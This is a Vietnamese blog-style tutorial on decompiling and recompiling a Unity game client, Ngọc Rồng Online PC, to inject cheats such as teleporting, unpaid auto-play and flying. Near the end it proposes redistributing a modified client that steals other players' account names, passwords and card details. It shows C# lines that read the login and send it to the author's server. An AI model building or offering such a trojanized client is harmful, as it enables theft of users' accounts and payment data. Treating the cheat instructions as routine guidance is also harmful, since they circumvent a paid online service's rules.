






Khoảng cuối năm 2017, mình thấy có một nhóc hỏi về cách mod game **Ngọc Rồng
Online PC** của **TeaMobi**. Mình biết chắc là cả dòng game bản PC của hãng này
đều sử dụng nền tảng **Unity**. Thế là mình bày ra cách decompile (dịch ngược mã
nguồn) game sau đó chỉnh sửa code rồi build lại. Nói thật là mình không nghĩ
cách này có thể làm được luôn, hôm sau nhiều người cũng mò theo comment của mình
mà làm, nhưng họ đều than rằng:

> Decompile thì dễ như ăn cháo, mà re-build thì khó vô vàn, cả đống bug.

Vậy là câu chuyện tạm lắng xuống khoảng nửa năm, cho đến khi mình gặp lại nhóc
này vào mấy ngày hôm trước. Nó đăng một bài khoe về chiến tích đọc được các
thông số của game đó thông qua memory, chỉ có vậy thôi nhưng nó vẫn hỏi về cách
để hack/mod game này. Mình thấy ngứa tay quá nên lôi cách cũ ra làm thử...

> ... không ngờ là thành công thật!

Bài viết này không chỉ hướng dẫn cách mod game PC của TeaMobi mà còn nhắm đến
các game được viết bằng **Unity**.

# Ngâm cứu

## Cấu trúc thư mục

Đối với các game **Unity 5** trên **Windows** sẽ như sau:

```
│   *.exe
└───*_Data
    │   globalgamemanagers
    │   globalgamemanagers.assets
    │   level0
    │   level0.resS
        ...
    |   levelN
    |   levelN.resS
    │   sharedassets0.assets
    │   sharedassets0.assets.resS
        ...
    |   sharedassetsN.assets
    |   sharedassetsN.assets.resS
    |   resources.assets
    ├───Managed
    │       Assembly-CSharp.dll
    │       Assembly-UnityScript.dll
    │       Mono.Security.dll
    │       mscorlib.dll
    │       System.Core.dll
    │       System.dll
    │       UnityEngine.dll
    │       UnityEngine.dll.mdb
    │       UnityEngine.Networking.dll
    │       UnityEngine.UI.dll
    ├───Mono
    │   │   mono.dll
    │   └───etc
    │       └───mono
    │           │   browscap.ini
    │           │   config
    │           ├───1.0
    │           │       DefaultWsdlHelpGenerator.aspx
    │           │       machine.config
    │           ├───2.0
    │           │   │   DefaultWsdlHelpGenerator.aspx
    │           │   │   machine.config
    │           │   │   settings.map
    │           │   │   web.config
    │           │   └───Browsers
    │           │           Compat.browser
    │           └───mconfig
    │                   config.xml
    └───Resources
            unity default resources
            unity_builtin_extra
```

| File/Thư mục                    | Mô tả                                                             |
| :------------------------------ | :---------------------------------------------------------------- |
| *.exe                           | File thực thi, cấu hình game                                      |
| *_Data                          | Thư mục chứa tài nguyên (resources) game                          |
| level0-levelN                   | Màn chơi (scene), mỗi file tương ứng từng scene                   |
| resources.assets                | Resources chính của game, nơi chứa ảnh, đồ họa, sound, texture... |
| sharedassets0-<br>sharedassetsN | Shared resources                                                  |
| Assembly-<br>CSharp.dll         | .Net assembly, biên dịch từ C#                                    |
| Assembly-<br>UnityScript.dll    | .Net assembly, biên dịch từ Unity script (Lua, JavaScript...)     |

## Mod thế nào?

Tại đây có 2 hướng đi, thứ nhất là mod tính năng của game; và cái thứ hai là mod
tài nguyên game (như âm thanh, hình ảnh...)

### Chỉnh sửa code game

Việc chỉnh sửa hay viết lại code game không quá khó, chỉ cần 3 bước sau:

- **Decompile**: dịch ngược code game, ta chỉ cần decompile 2 file
  **Assembly-CSharp.dll** và **Assembly-UnityScript.dll** thành code.
- **Edit code**: chỉnh sửa code game, thêm hoặc xóa các tính năng cho game.
- **Compile**: và cuối cùng là biên dịch trở lại, nên nhớ phải giữ cho code sạch
  và không có bug.

Tại đây, mình cung cấp cho bạn một số công cụ:

| Type                                | Tools                                                                                                                                                                                                                                                                                                                                                                      |
| :---------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **C# IDE <br> (editor + compiler)** | [**Visual Studio**](https://visualstudio.microsoft.com/) tiện lợi nhất rồi, hoặc có thể sử dụng [**Xamarin Studio**](https://visualstudio.microsoft.com/xamarin/) cho ai thích cảm giác mạnh (chỉ cài .NET desktop cho nhẹ máy). <br> Ngoài ra bạn có thể sử dụng [**Unity**](https://unity3d.com/) để viết thêm các thành phần phụ cho game hay đơn giản chỉ để đọc help. |
| **.NET decompiler**                 | [**ILSpy**](https://github.com/icsharpcode/ILSpy/releases) - nên dùng cái này, khá nhẹ và tiện lợi, ngoài ra bạn có thể sử dụng [**dotPeek**](https://www.jetbrains.com/decompiler/) hoặc [**dnSpy**](https://github.com/0xd4d/dnSpy/releases). Nên nhớ rằng decompiler khác nhau có thể cho code khác nhau kèm cả bug.                                                    |

Ngoài ra hack theo kiểu truyền thống thông qua memory cũng không tệ, bằng cách
sử dụng tính năng [**Mono**](https://wiki.cheatengine.org/index.php?title=Mono)
của [**Cheat Engine**](https://www.cheatengine.org/), bạn có thể tham khảo loạt
[**demo này**](https://www.youtube.com/playlist?list=PLNffuWEygffbue0tvx7IusDmfAthqmgS7).

### Chỉnh sửa resources game

Resources ở đây được pack vào file có đuôi **.assets**. Post này mình chỉ nói về
code thôi, bạn có thể sử dụng các tool sau để xem/chỉnh sửa hoặc search thêm
[**Google**](https://www.google.com/search?q=edit%20unity%20asset).

- [Unity Assets Explorer](http://zenhax.com/viewtopic.php?f=9&t=36)
- [DisUnity](https://github.com/ata4/disunity)
- [Unity Assets Bundle Extractor](https://7daystodie.com/forums/showthread.php?22675-Unity-Assets-Bundle-Extractor)
- [Unity Studio](https://github.com/RaduMC/UnityStudio)

# Test với Ngọc Rồng Online

## 1. Giới thiệu

**Ngọc Rồng Online** (**NRO**) là một game **2D** mác Việt Nam khá phổ biến trên
mobile của hãng **TeaMobi**. Game bắt đầu nổi từ 2014 sau loạt các game
**Avatar**, **Khí Phách Anh Hùng**, **Ninja School Online**... Sau những phiên
bản đầu tiên trên nền tảng điện thoại bàn phím cứng (hay còn gọi là **Java**)
thì đã rộ lên những bản hack mod với đủ thể loại, sau đấy đến cả **Android** &
**iOS**.

Đối với bản **PC** (trên **Windows**), được viết bằng **C#** với **Unity
Engine**, thì vẫn đang là một vấn đề lớn vì nhiều người bảo nó rắc rối. Nếu bạn
Google thì có thể thấy nhiều hướng dẫn trên PC. Nhưng chỉ toàn cách
mod/hack/cheat kiểu 'phổ thông' chủ yếu qua memory, chẳng hạn như dùng
[**Cheat Engine**](https://www.cheatengine.org) để lấy base address nhằm thay
đổi các chỉ số hay gọi các các hàm của game...

## 2. Cài đặt

Tại đây mình sử dụng **Visual Studio 2017** có cài **.NET desktop development**,
và **.NET framework 4.0** runtime cho Windows.

Game **NRO** thì bạn tải [tại đây](http://dl.teamobi.com/drive/get/iF), phiên
bản lúc mình viết bài này là PC v166. Sau khi tải xong thì bạn giải nén vào một
thư mục bất kỳ.

## 3. Decompile

Đầu tiên hãy mở **ILSpy**. Tiếp theo hãy mở đường dẫn đến thư mục game đã giải
nén lúc nãy, và mở thư mục **Managed** bên trong...

```
..\dragonBoy166\DragonBoy166_Data\Managed
```

Xong kéo file **Assembly-CSharp.dll** rồi thả vào **ILSpy**. File này là toàn bộ
code **C#** của game được biên dịch, nếu game có kết hợp ngôn ngữ kịch bản như
**JavaScript**, **Lua** thì bạn sẽ thấy có thêm file
**Assembly-UnityScript.dll**.

Cuối cùng là chọn **File** -> **Save Code...** hoặc **Ctrl**+**S** để tạo
project. Ta sẽ được file **Assembly-CSharp.csproj**, mở nó lên bằng **Visual
Studio**.

## 4. Fix tí bug

Nếu bạn nhấn build ngay sẽ thấy có nhiều lỗi nên phải fix ngay.

Tiếp tục click phải vào project **Assembly-CSharp.csproj** (là project, không
phải solution nhé), chọn **Properties**, tab mới hiện ra chọn mục
**Application**, phần **Target framework** bạn nên chỉnh là **.NET Framework 4**
đơn giản là vì từ Windows 7 trở lên đều được cài sẵn cái này, app sẽ tương thích
với rất nhiều máy mà không cần cài thêm.



Expand mục project sẽ thấy phần **References**, click phải vào chọn **Add
Reference...**, một cửa sổ hiện ra chọn mục **Assemblies**, bên list assembly
tích chọn **System.dll**, xong nhấn **OK**.



Tiếp tục mở file **Char.cs**, bạn tìm đến dòng 6 nghìn lẻ mấy... sẽ thấy có một
lỗi (nếu lười thì bạn có thể chọn compile ngay **Ctrl**+**Shift**+**B** và
double click vào lỗi bên dưới có nội dung
_`Can not use local variable 'mFont'...`_). Đây chắc là lỗi do decompiler, mình
đã thử qua nhiều bản **NRO** nhưng vẫn dính, nó đã bị đảo ngược code.

```cs Char.cs
num += mFont.tahoma_7b_white.getHeight();
mFont mFont = mFont.tahoma_7_whiteSmall;
```

Chỉ cần hoán đổi vị trí là xong.

```cs Char.cs
+mFont mFont = mFont.tahoma_7_whiteSmall;
+num += mFont.tahoma_7b_white.getHeight();
```

Như vậy là đã fix xong, các config khác cứ giữ mặc định. Bạn có thể compile ngay
rồi copy file output **Assembly-CSharp.dll** vào trở lại và chạy game xem có
được không 😅

Đối với nhiều bạn decompile bằng **dotPeek** hay **dnSpy** sẽ thường dính syntax
error do như `base.\u3...` hoặc thiếu `break` trong switch-case ở `default:`,
lỗi này thì rất khó fix.

Khi conpile gặp nhiều warning quá khiến bạn éo muốn code nữa thì cũng không sao,
chỉ cần vào **Properties** -> **Build** -> **Warning level** chỉnh lại bằng
**0** là ok.

## 5. Edit code

Các thành phần của game được chia nhỏ ra thành nhiều lớp tương ứng với mỗi file
C#:

- **Main**.cs // tất nhiên là main của game, quản lý phần khởi động game.
- **T1**, **T2** và **T3**.cs // chứa ngôn ngữ của game, bạn có thể dịch game
  tại đây.
- **Char**.cs // là class quản lý nhân vật, các chỉ số HP, MP, skill...
- **Service**.cs // cổng kết nối, truyền gửi dữ liệu từ game đến server, game
  này có tí đặc biệt là mấy cái động sẽ xử lý trên máy của bạn & sau đấy gửi
  lệnh về server ghi tĩnh, dễ hiểu thôi mà, nếu bạn đánh ảo không hit thì quái
  làm gì mất máu, mấy đứa ở gần sẽ thấy bạn đứng 1 chỗ =))
- **GameScr**.cs // quản lý render game.
- ... còn nhiều file quá, bạn tự tìm hiểu thêm nhé.

Đến đây chắc bạn cũng biết sẽ phải làm gì rồi nhỉ? Mình sẽ gợi ý luôn vài kiểu
mod đơn giản cho game, đây cũng là những cái mà mình tìm ra được đầu tiên.

### 5.1 Tele-in-map

Bạn có biết, từ _television_ (cái tivi) là từ ghép, tạo thành từ _tele_ (dịch
chuyển) và _vision_ (tầm nhìn), có thể hiểu là ngồi một chỗ mà xem được khắp nơi
hay dịch chuyển tầm nhìn. Tất nhiên **tele-in-map** là dịch chuyển tức thời đến
một chỗ trong map mà không cần phải đi bộ cho tốn thời gian.

Đầu tiên là tìm đến file **MovePoint.cs**, chức năng của class này là khi click
vào các vị trí trên map sẽ lấy tọa độ của vị trí đó và di chuyển nhân vật đến.
Lợi dụng chức năng này ta sẽ hack tele như sau.

Để lấy được tọa độ nhân vật thì ta có code:

```cs
Char.myCharz().cx; // x offset
Char.myCharz().cy; // y offset
```

Class **Char** mình có nói ở trên rồi, giúp quản lý nhân vật. Hàm **myCharz()**
sẽ trả về nhân vật của bạn, hai thuộc tính **cx**, **cy** sẽ giúp lấy tọa độ.
Ngoài ra thì hai thuộc tính này có set accessor, nên ta chỉ cần thay đổi giá trị
của chúng là có thể thay đổi vị trí của nhân vật.

Nhưng không biết tạo tọa độ thế nào, mình tìm references của **Char.cs** thì
thấy trong constructor của class **MovePoint** có sử dụng nó.



Hàm có hai tham số là **xEnd** và **yEnd** tương ứng với tọa độ đã click, ta
thêm hai dòng sau vào:

```csharp MovePoint.cs
+Char.myCharz().cx = xEnd;
+Char.myCharz().cy = yEnd;
```

Như vậy đã xong rồi đấy, bạn chỉ cần compile rồi copy file output
(**Assembly-CSharp.dll**) trở ngược vào game. Nếu bạn lười thì hãy chọn attach
vào process game đang chạy.



### 5.2 Autoplay

Autoplay hay nói đúng hơn là auto đánh quái, nhớ không nhầm thì 4 năm trước tức
là lần chơi đầu tiên cũng là cuối cùng của mình 😁 thì tính năng này phải mua
bằng tiền, khoảng 150 ngọc - khoảng 100k thoy 🙂

Để auto đánh thì có sẵn hàm auto, không cần phải tạo thuật toán gì ở đây cả. Ta
tìm đến class **GameScr**, lăn dài xuống sẽ thấy hàm **AutoPlay()**, biến
**canAutoPlay**, **isAutoPlay**...

> Nói game lừa đảo thì không đúng, phải là hút máu, do bạn không biết cách bật
> auto thôi =]]

Lười tìm callback game (on event game) nên mình tận dụng luôn constructor
**MovePoint** lúc nãy. Cách hoạt động đơn giản như sau: click đánh quái rồi nó
tự auto :v

Thêm tiếp dòng code sau vào constructor **MovePoint**.

```csharp MovePoint.cs trong constructor MovePoint()
    Char.myCharz().cx = xEnd;
+    GameScr.canAutoPlay = true;
```



Ngoài ra còn có vài thứ trong class là `private`, bạn có thể đổi thành `public`
để sử dụng cho thuận tiện.

```cs ko nhớ file nào luôn thuộc tính này cho phép nhân vật mới tạo có thể chạy
-    private bool canRun;
+    public bool canRun = true;
```

### 5.3 Vài thứ tào lao bí đao khác

Nhân vật mới tạo vẫn biết bay

```cs MovePoint.cs thêm tiếp vào constructor MovePoint() luôn
    GameScr.canAutoPlay = true;
+    if (!Char.myCharz().canFly) Char.myCharz().canFly = true;
```

Spam Rồng Thần và tàu dịch chuyển...

```cs
+    GameScr.gI().callRongThan(x, y);
+    Teleport tele = new Teleport(x, y, 
+        Char.myCharz().head, char.myCharz().cdir, 
+		 0, false, Char.myCharz().cgender);
+    Teleport.addTeleport(tele);
```



Về tương tác từ bên ngoài thì mình nghĩ thông qua khung chat là ổn nhất, bạn có
thể sử dụng các event kiểu như `OnChat()` để nhận lệnh từ bên ngoài.

```cs
void OnChat(string message)
{
    if (message.StartsWith("/")) {
        var tokens = message.ToLower().Split(' ');
        var cmd = tokens[0].Remove(0, 1);
        var args = tokens.Skip(1).ToArray();
        // TODO: execute the command
    }
}
```

Trong game vẫn còn rất rất nhiều thứ mà mình không thể làm hết được, tất cả đều
trông chờ vào khả năng của bạn đấy!

## 6. Vài điều có thể bạn không nghĩ tới

### Thêm scripting

Phương pháp này dành cho những ai muốn mở rộng, tựa như scripting trong **World
of Warcraft** hay mấy tool hack trong **LMHT** vậy. Tức là bạn sử dụng một ngôn
ngữ khác thêm vào để làm script giúp hack/mod game dễ hơn nữa & được sử dụng
rộng rãi hơn.

Ở đây mình ví dụ về **Lua**, ngôn ngữ khá phổ biến trong lập trình game mobile
vừa nhẹ mà lại rất nhanh. Có hai gói package dành cho .NET khá hay đó là
[MoonSharp](http://www.moonsharp.org/) và [NLua](http://nlua.org), hoặc có thể
sử dụng cả **Lua CAPI** lấy từ [source](https://www.lua.org/download.html).

Ví dụ **MoonSharp**, bạn chỉ cần add vào reference và thêm `using`

```cs
using MoonSharp.Interpreter;
```

Sau đấy nạp code **Lua** và viết wrap là xong (hơi khó khăn một tí).

```lua
MovePoint:MovePoint(x, y)
hp = Char.myCharz().cHP
```

### Biến game thành công cụ hack người khác

Cái này khá tàn ác rồi...

- Bạn có thể hack bất kỳ ai sử dụng phiên bản của bạn, nhưng mình nghĩ việc
  decompile trở lại là quá dễ dàng trừ khi bạn sử dụng các ngôn ngữ biên dịch hệ
  thống như C/C++, Rust để viết library add vào.
- Bất kỳ ai đọc qua post này cũng sẽ biết mà tránh, nhưng số lượng user lúc nào
  cũng đông hơn dev cả, đành chịu.

Vậy nó bao gồm những gì? Không cần sâu sắc mấy, chỉ cần lấy thông tin người
dùng, tài khoản, mật khẩu, thông tin thẻ nạp, thẻ tín dụng... bla... bla... :v

Đối với lấy thông tin tài khoản thì khá dễ, bạn chỉ cần một database để nhận dữ
liệu & sử dụng các thư viện trong **C#** để kết nối hoặc gửi mail cũng được =]]

```cs
var user = GameCanvas.getUsername();
var pass = GameCanvas.getPassword();
client.SendAccount(user, pass);
```

Dài dòng quá, đến đây là kết thúc được rồi nhé!

# FAQ

#### Tôi có thể thực hiện trên các game khác được không?

> Hầu hết các game viết bằng Unity đều có thể làm theo cách này.

#### Game Unity trên Android/iOS thì sao?

> Bạn chỉ cần trích xuất file Assembly-CSharp.dll trong gói game ra ngoài, tiến
> hành chỉnh sửa rồi nạp trở lại.

#### Có bị khóa tài khoản không?

> Mình nghĩ là không, vì NPH game chả quan tâm, mod trên mạng thì tràn lan,
> người chơi thì thoải mái sử dụng.
